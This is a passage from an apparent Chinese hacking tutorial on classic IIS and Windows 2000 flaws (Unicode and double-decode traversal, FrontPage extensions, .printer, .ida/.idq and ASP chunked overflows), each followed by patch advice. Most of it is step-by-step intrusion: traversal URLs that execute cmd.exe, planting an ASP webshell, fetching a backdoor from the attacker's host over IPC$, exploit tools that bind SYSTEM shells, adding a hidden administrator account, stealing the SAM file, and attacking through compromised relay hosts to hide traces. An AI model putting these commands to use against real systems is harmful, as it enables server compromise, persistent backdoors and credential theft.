> 提示：192.168.0.1 是本地主机 IP 地址，命令路径与目录需结合目标 Web 服务目录调整。执行后等待一段时间即可。  
> 把 `c:\inetpub\scripts\` 目录打开，如果你不确定，还可以自己检查一下，如图5。


图 4


图 5


图 6

接着再来启动这个 ncx99，在 IE 里输入：

```text
http://192.168.0.2/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+d:\inetpub\scripts\ncx99.exe
```

然后就可以 `telnet 192.168.0.2 99`，如果一切顺利没有什么意外（防火墙过滤或是不允许执行程序）的话，你就可以得到一个 shell，如图6，接着喜欢干什么就干什么喽。不过这个 shell 只有 IUSR_machinename 权限，需要进一步扩大权限（具体如何扩大权限请看本章后面）。


图 7

上面我们是用手工一条条命令来完成上传程序、执行程序的，如果利用 IIS Cracker 就简单多了，只要打开它的 “TFTP” 功能，填入要上传的文件和目标文件夹就行了，如图7，然后只要找到它执行就可以了，非常简单，几个操作就可以完成了，所以有时候适当地借助工具也并不是件坏事。

### 漏洞消除

- 1. 彻底解决方法：安装补丁或者升级，补丁下载地址：

```text
Microsoft IIS 4.0:
http://www.microsoft.com/ntserver/nts/downloads/critical/q269862/default.asp

Microsoft IIS 5.0:
http://www.microsoft.com/windows2000/downloads/critical/q269862/default.asp
```

- 2. 临时解决方法：限制网络用户访问和调用 CMD 的权限，在 SCRIPTS、MSADC 目录没必要使用的情况下，删除该文件夹或者改名。

## 5. 二次解码漏洞

我们这里要介绍的这个二次解码漏洞是一个与 Unicode 漏洞很相似的漏洞，虽然其漏洞原理与 Unicode 漏洞并不相同，但是其漏洞的利用方法却与 Unicode 漏洞一模一样，所以我们在介绍此漏洞的测试攻击部分内容省去了，因为这和前面的 Unicode 漏洞测试攻击极其相似，相信大家应该能够举一反三。

### 漏洞情况

IIS CGI 二次解码漏洞又称 IIS CGI 文件名错误解码漏洞。在默认情况下，IIS 的某些目录是允许通过提交 HTTP 请求执行可执行文件的。IIS 在加载可执行 CGI 程序时，会进行两次解码。第一次解码是对 CGI 文件名进行 HTTP 解码，然后判断此文件名是否为可执行文件，例如检查后缀名是否为 “.exe” 或 “.com” 等等。在文件名检查通过之后，IIS 会再进行第二次解码。正常情况下，应该只对该 CGI 的参数进行解码，然而，IIS 错误地将已经解码过的 CGI 文件名和 CGI 参数一起进行解码。这样，CGI 文件名就被错误地解码了两次。

通过精心构造 CGI 文件名，攻击者可以绕过 IIS 对文件名所作的安全检查，例如对 “../” 或 “..\” 的检查，在某些条件下，攻击者可以执行任意系统命令。

例如，对于 “\” 这个字符，正常编码后是 `%5c`。这三个字符对应的编码为：

```text
'%' = %25
'5' = %35
'c' = %63
```

如果要对这三个字符再做一次编码，就可以有多种形式，例如：

```text
%255c
%%35c
%%35%63
%25%35%63
...
```

因此，“..\” 就可以表示成 “..%255c” 或 “..%%35c” 等等形式。在经过第一次解码之后，会认为这是一个正常的字符串，不会违反安全规则检查。而在第二次被解码之后，就会变成 “..\”。因此攻击者就可以使用 “..\” 来进行目录遍历，执行 Web 目录之外的任意程序，不过攻击者只能以 IUSR_machinename 用户的权限执行命令。受此漏洞影响的系统：Microsoft IIS 4.0—Microsoft Windows NT 4.0 SP6a，Microsoft IIS 5.0—Microsoft Windows 2000 SP1/SP2，Microsoft Personal Web Server 4.0—Windows 98/95。


### 漏洞检测

已经了解了漏洞的基本情况，那在实际过程中如何检测目标主机是否存在此漏洞呢？很简单，可以向目标主机提交类似下列请求：`http://ip/scripts/..%255c..%255cwinnt/system32/cmd.exe?/c+dir+d:\`，如果对方主机存在虚拟可执行目录（scripts），那就会列出 `d:\` 的根目录，如图1。当然如果用 `/` 或者 `.` 做变换同样可以达到上面的效果，例如 “..%252f”、“..%252e/”……也可以借助扫描器来帮助我们发现二次解码漏洞，像 x-scan 等都可以探测二次解码漏洞，在其“扫描模块”里选上“IIS 漏洞”选项，再在“扫描参数”里填入要探测的 IP 段后开始扫描，如果存在二次解码漏洞很快就能发现许多，如图2（192.168.0.2）。

### 测试攻击

（可参考 Unicode 漏洞的测试过程，利用方法基本一致，只是编码不同）

### 漏洞消除

如果不需要可执行的 CGI，可以删除可执行虚拟目录，例如 `/scripts` 等等。如果确实需要可执行的虚拟目录，建议将可执行虚拟目录单独放在一个分区，将所有可被攻击者利用的命令行工具移到另外一个目录中并禁止 GUEST 组访问。最彻底的解决方法当然还是下载安全补丁，下载地址：

Microsoft IIS 4.0：  
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=29787

Microsoft IIS 5.0：  
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=29764


```text
发现 IIS 漏洞：/scripts/..%25%35%63../winnt/system32/cmd.exe?/c+dir
发现 IIS 漏洞：/scripts/..%255c../winnt/system32/cmd.exe?/c+dir
......
```

## 6. FrontPage 扩展服务漏洞攻防

### 1. FrontPage 扩展服务默认权限错误漏洞攻防

### 漏洞情况

FrontPage 服务器扩展（FrontPage Server Extensions）是 IIS 的一个非默认安装组件，它增强了 Web 服务器的功能，使得创作者能够远程管理和发布网站，例如通过 FrontPage 直接与 Server Extensions 交互，实现文件上传、连接到数据源、修改 Web 授权等操作。FrontPage 服务器扩展在默认安装的时候其访问密码是为空的，而如果管理员管理疏忽而没有为 FrontPage 服务器扩展设置访问密码，虽然我们说 FrontPage 服务器扩展默认权限漏洞其实严格来说这算不上—种漏洞，而应该算是一种管理员配置上的失误，但它又确实是一个相当危险的问题，因为利用这点攻击者可以用 FrontPage 来远程管理目标站点、修改网页、获取管理员访问权等等。

### 漏洞检测

前面我们已经讲了 IIS 的 FrontPage 服务器扩展不是默认安装的，要安装它必须打开“Internet 服务管理器”，用鼠标右键单击 WEB 站点，在其菜单中选择“所有任务”→“配置服务器扩展”，然后会弹出服务器扩展配置向导，如图1。


图 1

安装提示“完成安装和配置”这样才行。所以不是每台 IIS 主机都有 FrontPage 服务器扩展的，我们如何才能检测开放 FrontPage 服务器扩展的主机呢？别急，安装了 FrontPage 服务器扩展会在主目录存放的文件夹下建立一个“/_vti_pvt/”文件夹，这是此漏洞的标志。根据此点我们可以在 IE 输入这样一条请求：`http://192.168.0.2/_vti_pvt/`，如果其存在 `/_vti_pvt` 文件夹就会返回结果：“网页无法显示”，如图2；如果不存在 `/_vti_pvt` 文件夹则会返回结果：“无法找到网页”，这是一个不错的手工检测方法。我们也可以利用 GOOGLE 等搜索引擎用“/_vti_pvt/”这一关键词去搜，可以得到大量结果，如图3。

GOOGLE 是黑客的必备工具之一，还真不错，可以用它来找工具，还能用它来搜索漏洞主机。当然发现了 FrontPage 服务器扩展的主机并不代表它的访问口令一定是空的，你还得连上去看看。


图 2


图 3


图 4

扫描器对这个漏洞好像不是太关注，许多有名的扫描器都不能探测到此漏洞，不过大名鼎鼎的“流光”还是可以探测到的，打开“流光”的“高级扫描设置”，在 IIS 扫描选项里选上“FrontPage 扩展”，如图4，然后输入要扫描的地址，如果有 FrontPage 服务器扩展默认权限漏洞的主机它就能发现，如图5，流光发现了 192.168.0.2 主机有 FrontPage 扩展默认权限漏洞。

### 测试攻击

发现有 FrontPage 扩展默认权限漏洞的主机该如何利用才能达到入侵的目的呢？假设现在有一台 IP 为 192.168.0.2 的 FrontPage 扩展默认权限漏洞主机，首先我们需要准备一个工具，就是我们做网页常用的 FrontPage，然后打开 FrontPage，选择“文件”－“打开站点”，在打开站点对话框中输入目标主机的 IP 地址或域名：`http://192.168.0.2`，如图6。接着单击“打开”按钮，等待几秒钟就会打开目标主机主页存放的文件夹了，如图7，如果连接不上那可能对方设置了权限。连接成功后服务器里面所有的主页你可以一览无遗，不仅如此，你还可以直接用 FrontPage 来编辑修改它的主页，只要双击其文件名，然后就可以在右边的编辑框里编辑了，更改完成后只要“保存”就行了，你甚至还可以任意新建或删除里面的网页文件，总之它的主页所有文件的生杀大权全在你的掌握中，现在知道这个漏洞的威力了吧，而且其操作极其简单，刚碰计算机的人也能完成，唯一的缺点就是安装 FrontPage 服务器扩展的主机好像不是很多。


图 6


图 7


图 8


图 5

主页我们是随意可以修改了，可能有朋友会问了，难道这个漏洞只能访问存放主页的文件夹、改改主页文件吗？当然不是，它的威力大着呢！我们完全可以利用它来获取系统的访问权。虽然通过 FrontPage 不能直接上传 exe 程序，但我们可以用它来“制作”一个 ASP 木马，再通过这个 ASP 木马把后门程序传上去，然后再通过页面方式实现交互 cmd 环境来启动后门程序，这样就达到获取系统访问权的目的了，下面我们一步步进行。

ASP 木马就用网上常用的 cmd.asp，把它的源代码复制下来，然后在 FrontPage 的 192.168.0.2 服务器主页上新建或修改一个 asp 文件，然后把源代码粘贴上去后保存，如图8，这样 ASP 木马制作完成，以后只要在 IE 输入 `http://192.168.0.2/cmd.asp` 就能访问。接着我们再来上传后门程序，随便选一个，只要能在 cmd 执行的就行，我们这里用 winshell，这是孤独剑客写的一个有密码验证的 Shell 后门，先填入你要的监听端口和验证密码，然后按“make”按钮生成 server 端程序，如图9，我们要上传的就是生成的 server 端程序。

接着在 IE 输入：`http://192.168.0.2/cmd.asp`，如图10，然后在 cmd.asp 里输入以下命令：`net use \\192.168.0.1\ipc$ "123456" /user:"administrator"`，然后按“run”执行。看清楚是 192.168.0.1，这是本地主机的 IP 地址。这个命令是让 192.168.0.2 主机与我的本地主机 192.168.0.1 建立 ipc 连接，123456 是本地主机 administrator 的密码，当然我的系统也要是 WinNT/2000。显示命令完成后，再输入命令：`copy \\192.168.0.1\c$\winshell.exe c:\`，如图11，这个命令是让 192.168.0.2 主机把 192.168.0.1 主机 C 盘上的刚才生成的 winshell.exe 拷贝到自己的 C 盘上，“run”后系统会提示：“已复制 1 个文件”，然后再在 cmd.asp 页面下输入：`c:\winshell.exe` 命令来启动 winshell.exe 后门程序，如图12，等一会儿后我们就可以从后门登录来“管理”系统了。

> **提示**  
> 在 cmd.asp 页面下执行命令时，由于我们的用户权限比较小，很多命令会受到限制。拷贝文件时也要注意，不能直接 copy 文件到当前目录，因为当前默认路径是 `\winnt\system32`，我们的权限小，这个目录我们是没有权限写的。关于如何提升权限我们在以后的章节中会提到。


在本地主机上输入 `telnet 192.168.0.2 5277`，5277 是 winshell 的默认监听端口，需要输入我们刚才设定的 passwd：123，如图13。

```text
http://192.168.0.2/cmd.asp

net use \\192.168.0.1\ipc$ "123456" /user:"administrator"
copy \\192.168.0.1\c$\winshell.exe c:\
c:\winshell.exe
telnet 192.168.0.2 5277
```

winshell 的使用方法可以用 `?` 查询，其中如果要执行 shell 命令，只要输入 `:s` 就会出现大家熟悉不过的命令行提示符：“D:\WINNT\system32>”，这样我们又一次地把远程主机掌握在手里了。


图13


图14

## 解决方法

这个不是漏洞的漏洞真的很危险，你可以通过“服务器扩展管理”的“权限向导”设置来限制访问权限。如果你不需要 FrontPage 2000 服务器扩展，你可以删除此服务，删除方法：

- 1. 打开一个命令行窗口，进入 FPSE 所在的驱动器，默认是 `C:\`。
- 2. 输入：`cd \Program Files\Common Files\Microsoft Shared\Web Server Extensions\40\bin`
- 3. 输入：`fpsrvadm -o uninstall -p all`

## 2. FrontPage扩展服务远程溢出漏洞攻防

**漏洞情况：**FrontPage 扩展服务除了上面介绍的漏洞外，还存在一个严重的远程缓冲区溢出漏洞，可导致远程攻击者利用该漏洞进行缓冲区溢出攻击，可能以 FrontPage 进程权限在系统上执行任意指令。

这个漏洞是由于 FrontPage 服务扩展的远程调试功能上存在缓冲区溢出。这个功能用于用户远程连接 FrontPage 服务扩展的服务器并进行远程调试，如 Visual InterDev。攻击者成功利用这个漏洞后，可以以本地 SYSTEM 权限在系统上执行任意指令，然后在系统上执行任意操作，如安装程序、查看、更改或删除数据，建立拥有全部权限的账户等。受影响系统：Microsoft Windows XP SP1，Microsoft Windows 2000 SP3。不受影响系统：Microsoft Windows NT、ME、2003。

**测试攻击：**如何在网上寻找 FrontPage Server Extensions 主机的方法上面已经介绍了，这里就不讲了，我们直接来看攻击测试。虽然这个漏洞是不久前（2003 年 11 月）被发现的，但目前网上也已经出现了这个漏洞的 exploit 以及编译好的攻击程序。利用这些攻击程序，黑客能轻易获取漏洞主机的系统权限。

我们先来看此漏洞的溢出程序 `fp.exe`。利用这个程序，如果溢出成功后，它会在对方主机的 9999 端口上绑定一个 Shell，我们只要连接到 9999 端口就可以执行 cmd 命令了。它的用法如下：

```text
Usage: fp.exe [Target] <port>
eg: fp.exe 192.168.0.3 80
```

很简单吧，只要输入要攻击的目标主机地址以及其 WEB 服务端口就行，WEB 服务端口一般通用的是 80。

假如我们找到了一台 FrontPage Server Extensions 的 WinXP 主机，其 WEB 服务端口为 80，IP 地址是 192.168.1.11，我们来试着对它进行溢出攻击。打开命令行工具，输入：`fp 192.168.1.11 80`。

程序自动一步步地进行溢出：

```text
[*] Socket initialized....
[*] Checking for presence of fp30reg.dll...
Found!
[*] Packet injected!
[*] Sleeping ......
[*] Connecting to host: 192.168.1.11 on port 9999
[*] Dropping to shell...
```

如果一切顺利，溢出成功的话，就会直接出现对方主机的 Shell，而且是 SYSTEM 权限，你可以执行任意命令。如果在溢出过程中出现错误，那就不可能出现 Shell 了。

**解决方法：**如果你不需要 FrontPage 扩展服务，那可以在系统安装时不加载 FrontPage 扩展服务。如果已经安装了，那可以使用 IIS Lockdown 工具来停止 IIS Web 服务器上的 FrontPage 扩展服务。管理员也可在“添加/删除 Windows 部件”里将“FrontPage Server Extensions”卸掉。Microsoft 也已经为此漏洞发布了一个安全公告（MS03-051）和相应的补丁，补丁下载地址：http://www.microsoft.com/technet/security/bulletin/MS03-051.asp

可以提交一个精心构造的针对 `.printer` 的 URL 请求，其“Host:”域包含大约 420 字节的数据，此时在 `msw3prt.dll` 中发生典型的缓冲区溢出。通过构造适当的 shellcode，攻击者可以以 SYSTEM 用户身份远程通过 Web 执行任何命令。并且溢出发生后，WEB 服务停止响应，Windows 2000 会检测到 WEB 服务停止响应并自动重启，因此系统管理员很难意识到发生过攻击。受此漏洞影响的系统：正在运行 Microsoft IIS 5.0 的 Microsoft Windows 2000 Professional/Server/Datacenter/Advanced Server SP1。


ISAPI（Internet Services Application Programming Interface）是网络服务应用编程界面，可使开发者通过编写自定义命令码扩展服务器功能。该命令码既可在 ISAPI 过滤器中完成，也可在 ISAPI 扩展项中完成。这里受攻击的 ISAPI 扩展能执行网络打印协议 IPP（IIS ISAPI Printer），IPP 提供通过 HTTP 的网络打印请求服务，例如远端办公人员可经网络提交打印任务。

## 7. Printer 远程溢出漏洞攻防

**漏洞情况：**Printer 漏洞全称是 IIS 5.0 `.printer` ISAPI 扩展远程缓冲区溢出漏洞。Microsoft Windows 2000 IIS 5.0 的打印 ISAPI 扩展接口建立了 `.printer` 扩展名到 `msw3prt.dll` 的映射关系，默认情况下该映射存在。该接口可通过 WEB 远程调用打印机。处理 `.printer` 映射的 `msw3prt.dll` 存在缓冲区溢出漏洞，远程攻击者可利用此漏洞在主机上以 Local System 权限执行任意指令。

当远程用户提交对 `.printer` 的 URL 请求时，IIS 5.0 调用 `msw3prt.dll` 解释该请求。由于 `msw3prt.dll` 缺乏缓冲区边界检查，远程用户可通过超长输入触发溢出并执行代码。

**漏洞检测：**检测 `.printer` 漏洞一般可先向 IIS 发送 `GET /NULL.printer HTTP/1.0` 请求，再传送超长字符串给目标主机。许多扫描器采用该方法，sfind 就是其中之一。它是 DOS 下运行、支持多线程、扫描速度较快的 `.printer` 漏洞扫描器。

```text
sfind 扫描漏洞类型 开始IP地址 结束IP地址
-e    扫描 .printer 漏洞

示例：
I:\>sfind -e 192.168.0.1 192.168.0.255
```

## 神功初成：经典漏洞攻防

```text
Scan Windows 2000 Hole Version 1.2
by Sunx 1999-2001. HTTP://sw_sun.myetang.com

192.168.0.1  .Printer  Remote Exploit.....................OK
192.168.0.2  .Printer  Remote Exploit.....................OK

255 Host Search Complete. Find 2 Hole!
Write For A Pscan.txt.........done.
```

发现两台有漏洞的主机，如图1。扫描完成后结果将自动写到 `sfind.txt` 中。


图1

此外还有许多扫描软件能扫描 printer 漏洞，x-way、x-scanner、流光等都专门做了针对 printer 漏洞的扫描。大家可以试试，像 x-way 中有一个“主机搜索”功能，打开它，在“搜索方式”里选中“.printer”漏洞，然后填入要扫描的 IP 段就开始搜索有 `.printer` 漏洞了，如图2。


图2

**测试攻击：**我们介绍了 IIS ISAPI Printer 远程溢出漏洞的具体情况。与其他漏洞相比，printer 漏洞有两个优点：一是 printer 漏洞溢出后 IIS 会自动重启，所以 `.printer` 漏洞可以反复被利用，不像其他缓冲区溢出漏洞溢出一次后要等计算机重启后才能第二次利用；二是它仅仅需要 WIN2000 打开 80 端口（HTTP）或者 443 端口（HTTPS）就可以进行溢出，一般防火墙不会过滤这两个端口。

利用此漏洞，黑客可以轻易地进入存在该漏洞的网站服务器。我们来看其攻击过程。此漏洞公布后不久，有老外发布了针对此漏洞的一个 `jill.c` exploit，现在网上流行的已编译溢出攻击程序大都是在此基础上修改后得来的。其中比较著名的国产 `.printer` 溢出程序是国内知名黑客 Sunx 写的 `IIS5hack.exe`，如图3。它支持中文、英文、日文的 IIS 5.0 版本。

溢出后直接在目标机器上开一个 99 端口的 shell，它的使用说明如下：

- 用法：`iis5hack <host> <port> <hosttype>`
- `<host>`：要溢出的主机
- `<port>`：主机的 WEB 端口
- `<hosttype>`：主机的类型
  - 中文 WIN2K：0
  - 中文 WIN2K SP1：1
  - 英文 WIN2K：2
  - 英文 WIN2K SP1：3
  - 日文 WIN2K：4
  - 日文 WIN2K SP1：5


图3

## 经典漏洞攻防初成


假设现在我们已经找到一台 IP 为 192.168.0.2 的中文版 Windows 2000 主机存在 printer 漏洞，我们用 IIS5hack 来试着进行溢出攻击。打开 cmd，输入：

```text
I:\>iis5hack 192.168.0.2 80 0（如图4）
iis5 remote .printer overflow. writen by sunx
http://www.sunx.org
for test only, don't used to hack, :p
connecting...
sending...
Now you can telnet to 99 port
good luck :)
// 溢出成功，你可以 telnet 到对方的 99 端口了！
I:\>telnet 192.168.0.2 99
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
D:\WINNT\system32>
......
```

已经进入目标主机，如图5，权限是 SYSTEM 权限。到此黑客利用 printer 远程溢出漏洞入侵成功了，他可以进行任何活动：增加、改变或者删除文件和网页，安装和运行程序……

> **提醒**：IIS5hack 溢出攻击时注意不要保留 shell 太长时间，用完就记得 `exit` 退出它，因为溢出成功后 IIS 会停止响应；在 shell 中敲 `exit` 可以使 IIS 自动重启。如果不敲 `exit` 直接断开 telnet，那么以后仍然可以再次连接 99 端口继续使用原来的 shell；但保留 shell 太长时间会导致 shell 和 IIS 全都死掉。

其他的 `.printer` 漏洞攻击软件还有很多，像 isno 写的 i5cnhack、小榕写的 IIS5Exploit，其使用过程基本与 iis5hack 一样。不同的是 isno 的 i5cnhack 溢出成功后会自动在目标主机的 administrators 组里建一个名为 hax、口令为 hax 的用户，而小榕的 IIS5Exploit 只适用于英文版，这里就不详细介绍了。

**解决方法：**这是一个非常危险的漏洞，但打过 Windows 2000 Service Pack 2 或 Service Pack 3 的主机不存在这个漏洞。如果你的主机还没有打过 SP2 或 SP3，那你要注意了，尽快打好补丁。补丁下载地址：http://www.microsoft.com/Downloads/...ReleaseID=29321

- 1. 打开“Internet 服务管理器”。
- 2. 在选中的服务器上按鼠标右键，选择“属性”，然后选择“主属性”中的“WWW 服务”。
- 3. 选择“编辑”，然后选择“主目录”，点击“配置”。
- 4. 从“应用程序映射”栏中删除“.printer”项，如图6。


## 8. Ida&idq 远程溢出漏洞攻防

前面我们讲了 Printer ISAPI 扩展远程缓冲溢出漏洞，这里我们要讲的是另一个与 ISAPI 扩展有关的漏洞：Windows IIS `.ida/.idq` ISAPI 扩展远程缓冲区溢出漏洞。

**漏洞情况：**微软 IIS 默认安装情况下带了一个索引服务器（Index Server，在 Windows 2000 下为“Index Service”）。默认安装时，IIS 支持两种脚本映射：管理脚本（`.ida` 文件）、Internet 数据查询脚本（`.idq` 文件）。这两种脚本都由一个 ISAPI 扩展 `idq.dll` 来处理和解释。`idq.dll` 实现上存在一个缓冲区溢出漏洞，远程攻击者可以利用此漏洞通过溢出攻击以 “Local System” 权限在主机上执行任意指令。

由于 `idq.dll` 在处理某些 URL 请求时存在一个未经检查的缓冲区，如果攻击者提供一个特殊格式的 URL，就可能引发缓冲区溢出。通过精心构造发送数据，攻击者可以改变程序执行流程，以执行自己的代码；而 `idq.dll` 是以 SYSTEM 身份运行的，攻击者溢出成功后得到的权限也是 SYSTEM 权限。由于此漏洞真正发生溢出的是 `idq.dll` 文件，所以也有人把此漏洞称为 `idq.dll` 远程溢出漏洞。受此漏洞影响的系统：Microsoft IIS 4.0、Microsoft IIS 5.0（Microsoft Windows 2000 SP0/SP1/SP2）；Microsoft Windows 2000 SP3 不受此漏洞影响。

> **BOOK 提示**：将 Index Server 或 Index Service 关闭，使之失效。只要 idq 或 ida 这两种脚本映射存在，那此漏洞就存在。

**漏洞检测：**如果远程主机存在 `.ida/.idq` 远程溢出漏洞，那么你在 IE 浏览器中输入类似 `http://192.168.0.2/.ida` 或 `http://192.168.0.2/.idq` 这样的请求时，它会返回“找不到 IDQ 文件 .ida”这样的提示，如图1；有时候还会返回服务器存放网页的路径信息。如果不存在 `.ida/.idq` 漏洞，则返回的结果是：“无法找到网页”，如图2。


图1


图2


图3

在没有扫描器的情况下，利用这点我们可以手工检测 IIS 主机是否存在 `.ida/.idq` 溢出漏洞。当然手工检测比较麻烦，一台两台还可以；如果要大范围检测某个 IP 段内的主机是否存在 `.ida/.idq` 漏洞，还是得靠扫描器。能扫描到 `.ida/.idq` 的扫描器很多，流光和 x-scan 都可以。我们这里还是用大家比较熟悉的流光来扫描：打开流光，进入“探测”→“高级扫描”，在“探测选项”里只选“CGI/ASP”，然后再在“CGI Rules”里用“反向选择”选上“/*.ida 和 /*.idq”这两项，如图3，然后填入 IP 段就可以开始扫描了。如果中途发现 `.ida/.idq` 漏洞，会弹出如图4的提示框，扫描结束时也会生成所有主机的扫描结果报告。


**测试攻击：**`.ida/.idq` 远程溢出漏洞和 printer 一样，也是一个危险的漏洞。只要远程溢出攻击成功，黑客就能直接获得一个 SYSTEM 权限的 shell。下面我们来看看如何利用这个漏洞来攻击。

虽然是同一个缓冲区溢出漏洞，但具体实现上可以分别通过 `.ida` 或 `.idq` 两个脚本映射进行溢出攻击。网上通过 `.ida` 脚本进行溢出的工具有 Sunx 编译的 Idahack，而通过 `.idq` 脚本进行溢出的有 snake 编译的 IISIDQOverflow。下面我们分别来看看利用 Idahack 通过 `.ida` 对 `idq.dll` 的溢出攻击和利用 IISIDQOverflow 通过 `.idq` 的溢出攻击。

先来看用 Idahack 进行溢出攻击，如图5。它支持中文、英文、日文、墨西哥等多种版本，前提是对方主机存在 `.ida` 脚本映射。用法是：

```text
usage: idahack <Host> <HostPort> <HostType> <ShellPort>
<Host>      目标主机
<HostPort>  目标主机的 web 端口
<HostType>  目标主机的类型（1,2,3...）
chinese win2k      : 1
chinese win2k, sp1 : 2
chinese win2k, sp2 : 3
......
<ShellPort> 溢出后在目标机绑定 shell 的端口
```

假如我们现在有一台存在 `.ida` 脚本映射的 Windows 2000 漏洞主机，其 IP 地址为 192.168.0.2，在命令行下输入：`idahack 192.168.0.2 80 2 999`，溢出攻击开始，如图6。溢出后绑定 shell 的端口这里选了 999，其实可以随意选，但要注意不要选一些常用服务端口。目标主机类型如果不知道可以多试几次。

```bash
idahack 192.168.0.2 80 2 999
```

当出现 “Now you can telnet to 999 port” 提示时说明溢出成功，可以连接对方的 999 端口了；如果出现 “overflow failed” 等提示，那说明溢出没有成功。

```bash
telnet 192.168.0.2 999
```

再在命令行下输入：`telnet 192.168.0.2 999`，连接成功，如图7。你拥有了一个 SYSTEM 权限的 shell，可以增删文件和用户，管理服务，启动木马等一切你想干的事情。

## 神功初成

### 经典漏洞攻防

经常留意些蛛丝马迹。为了尽量隐藏自己的踪迹，黑客一般不会用自己的机子去攻击，他们往往是把攻击工具上传到“肉鸡”上，让“肉鸡”帮他们去攻击。而对“肉鸡”的控制往往是在命令行下进行的，所以攻击工具也需要是命令行可运行的 DOS 版本，而不能用图形界面。


图形界面 IISIDQOverflow 用法很简单。假如我们已经用流光找到一台中文版的存在 *.idq 漏洞的机器，其 IP 为 192.168.0.2。打开 IISIDQOverflow，如图 8，在被攻击地址上填上：192.168.0.2，端口：80，操作系统类型选：IIS5 中文 win2kSp1，绑定端口 813，然后按“IDQ 溢出”。程序提示发送成功后可尝试连接 813 端口：`telnet 192.168.0.2 813`，如果连接成功就说明溢出成功。

```bash
telnet 192.168.0.2 813

cmd.exe /c net user hacker 1314 /add
cmd.exe /c net localgroup administrators hacker /add
```

如果连接不成功，可再选 IIS5 中文 win2kSp0、Sp3 试试。这里测试时“溢出后绑定的命令”用了 `dir c:\`，而黑客入侵时会改为添加用户并提权到 administrators 组。利用 .ida/.idq 漏洞攻击测试就介绍到这里了。


接着我们再来试试利用 IISIDQOverflow 通过 .idq 脚本映射对 idq.dll 进行溢出攻击。IISIDQOverflow 有两个版本，一个是图形界面的，另一个是命令行下运行的 DOS 版本。

> 提示：有时图形界面版本操作不便，还需要另一个 DOS 版本（用于更灵活的攻击/测试场景）。

漏洞消除：临时的解决方法是删除“.ida/.idq”脚本映射：打开 Internet 服务管理器，右击你的服务器，在菜单中选择“属性”栏，选择“属性”，进入“WWW 服务→编辑→主目录→配置”，在扩展名列表中删除“.ida/.idq”项，然后保存设置，重启 IIS 服务。彻底的最好解决方法是立刻下载安装补丁或者升级，补丁下载地址：

- Windows NT 4.0：  
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=30833
- Windows 2000 Professional, Server and Advanced Server：  
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=30800

用此漏洞得到主机访问权限，对于 IIS 4.0，远程攻击者可以获取 SYSTEM 权限；对于 IIS 5.0/5.1，攻击者可以获取 IWAM_computername 用户的权限，所以这也是一个重要的 IIS 远程缓冲区溢出漏洞。

受此漏洞影响的系统：Microsoft IIS 4.0—Microsoft Windows NT 4.0，Microsoft IIS 5.0—Microsoft Windows 2000。

漏洞检测：能检测到此漏洞的扫描器不多，手工检测也比较困难，流光、x-way 等不能检测到此漏洞。国内扫描器中 x-scan 2.3 以上版本能够扫描到此漏洞。打开 x-scan，在其“扫描模块”里选上“IIS漏洞”选项，再在“扫描参数”里填入要探测的 IP 段后开始扫描，如果存在二次解码漏洞很快就能发现：“[192.168.0.2]：可能存在‘IIS .asp 映射分块编码远程缓冲区溢出’漏洞”，如图 1。

## 9. IIS.ASP 映射分块编码远程溢出漏洞攻防

漏洞情况：默认安装的 IIS 4.0/5.0/5.1 服务器加载了 ASP（Active Server Pages）ISAPI 过滤器，它在处理分块编码传送（chunked encoding transfer）机制的代码中存在缓冲区溢出漏洞。攻击者也可以通过提交恶意分块编码的数据覆盖 heap 区的内存数据，使之以他指定的数据重写任意地址的 4 字节内存。例如，攻击者可以让 dllhost.exe 重写它可以访问的任意 4 字节内存，包括程序函数指针、意外处理模块指针或其他任何可以用来控制程序执行流程的地址，从而改变程序执行流程，执行任意攻击者指定的代码。需要注意的是，虽然这个漏洞存在于 ASP ISAPI，但还是需要一个机制来提交 Shellcode 等利用代码。有表单的 ASP 程序当然比较方便，可以通过表单变量提交；如果没有表单，也可以通过 HTTP 请求头中的服务器变量来提交。

利用此漏洞，黑客使用随机数据可能使 IIS 服务崩溃；而如果黑客精心构造发送的数据，可以利用该漏洞得到主机访问权限。


测试攻击：IIS.ASP 映射分块编码远程溢出的成功率不是很高，确切地说是比较低的，这也是这个漏洞的缺点。好了，下面我们来说说其测试攻击过程。通过扫描，我们已经发现 IP 为 192.168.0.2 的主机存在 ASP 映射分块编码远程溢出漏洞。在漏洞情况里已经提过，这个漏洞还需要有表单的 ASP 程序来提交 Shellcode 等利用代码，所以在进行溢出攻击前，我们还要找一个可利用的 aspfile。如果默认安装我们可以利用 iisstart.asp，用浏览器看看 192.168.0.2 是不是默认安装，输入：http://192.168.0.2/iisstart.asp，如图 2，看来此主机是默认安装……

“找不到文件”，那你得另找个 aspfile。

> （大概的 html 代码不多，连 shell 都没有，这说明漏洞其实很深，可以再尝试几次，如果不成功就没法子了）


图 2


图 3

网上关于 ASP 的溢出工具有好几个，经测试发现其中有一个 aspcode 的溢出程序效果不错，使用也简单。它是一个命令行下的溢出工具，使用方法：

```bash
usage: aspcode.exe <server> [aspfile] [webport]
<server>：目标主机地址
[aspfile]：可利用的 aspfile，默认是 iisstart.asp
[webport]：目标主机的 WEB 服务端口
```

我们来用这个 aspcode.exe 尝试对 192.168.0.2 的主机进行溢出。打开 aspcode，程序会提示：“please enter the web server”，输入目标主机地址 192.168.0.2；接着程序又会提示：“please enter the .asp filename”，输入可利用的 aspfile 名字；如果用默认 iisstart.asp，可以不输，直接回车就可以了；接着是 webport，用默认 80 也只要回车就可以。然后开始溢出攻击，如图 3。等一段时间后，如果溢出成功就会出现 shell 提示符：

```text
......
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
D:\WINNT\system32>
```


图 4

溢出成功出现 Shell 命令提示符后，你可以输入命令控制它了，可以查看用户信息、窃取 SAM 文件等等，如图 4。不过要注意这时只有 IWAM_computername 用户权限，增删文件、启动木马等可能会失败。好了，IIS ASP 映射分块编码远程溢出漏洞测试攻击就介绍到这里。

**解决方法：**如果您不需要使用 ASP 脚本，您可以删除“.asp”的脚本映射来消除此漏洞。步骤如下：打开“Internet 服务管理器”，右击你的“web 服务器”，在菜单中选择“属性”栏，选择“主目录”标签，再点击“配置”，然后在扩展名列表中删除“.asp”项，如图 5，保存设置，然后重启 IIS 服务。最好的解决方法是尽快安装补丁，补丁下载：

- Microsoft IIS 4.0：  
